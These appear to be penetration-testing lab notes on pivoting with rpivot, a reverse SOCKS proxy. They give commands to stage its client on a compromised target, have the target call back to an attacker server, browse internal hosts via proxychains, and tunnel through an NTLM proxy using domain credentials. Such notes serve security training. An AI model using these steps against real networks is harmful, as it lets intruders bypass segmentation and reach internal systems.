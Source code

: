 - [Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. 
- Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.
![[Pasted image 20240801052005.png]]
#### Cloning rpivot
```shell
sudo git clone https://github.com/klsecservices/rpivot.git
cd rpivot
```
#### server.py
```shell
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
#### Transfering rpivot to the Target
```shell
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
#### client.py
```shell
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
#### Confirming Connection is Established
```shell
New connection from host 10.129.202.64, source port 35226
```
#### Browsing to the Target Webserver using Proxychains
```shell
proxychains firefox-esr 172.16.5.135:80
```
#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth
```shell
python2.7 client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
